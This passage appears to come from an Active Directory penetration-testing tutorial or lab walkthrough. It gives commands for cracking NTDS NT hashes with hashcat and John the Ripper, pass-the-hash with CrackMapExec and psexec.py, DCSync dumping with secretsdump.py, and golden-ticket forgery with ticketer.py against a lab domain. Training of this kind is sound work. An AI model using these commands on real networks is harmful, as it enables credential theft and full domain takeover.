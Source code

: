 ```bash
# Create a file containing NT hashes
echo "64f12cddaa88057e06a81b54e73b949b" > ntds_hashes.txt

# Crack using hashcat
hashcat -m 1000 ntds_hashes.txt /usr/share/wordlists/rockyou.txt
```

Example output:

```
64f12cddaa88057e06a81b54e73b949b:Password1
```

#### Using John the Ripper

```bash
# Create a file in the format john expects
echo "Administrator:$NT$64f12cddaa88057e06a81b54e73b949b" > ntds_for_john.txt

# Crack using john
john --format=NT ntds_for_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

### Leveraging NTDS Hashes for Attacks

#### Pass-the-Hash Attacks

With obtained NT hashes, you can perform pass-the-hash attacks without cracking:

```bash
# Using CrackMapExec
crackmapexec smb 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b

# Using Impacket's psexec.py
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b administrator@10.129.201.57
```

#### DCSync Attacks

If you compromise an account with DCSync privileges, you can extract NTDS.dit data remotely without direct access to the domain controller:

```bash
# Using Impacket's secretsdump.py
secretsdump.py -just-dc inlanefreight.local/administrator@10.129.201.57
```

#### Golden Ticket Attacks

The `krbtgt` account hash is especially valuable as it can be used to create forged Kerberos tickets:

```bash
# Extract the domain SID
# The krbtgt hash from NTDS.dit
# Create a golden ticket with Impacket's ticketer.py
ticketer.py -nthash cbb8a44ba74b5778a06c2d08b4ced802 -domain-sid S-1-5-21-1210205079-3865622944-1816604788 -domain inlanefreight.local administrator
```
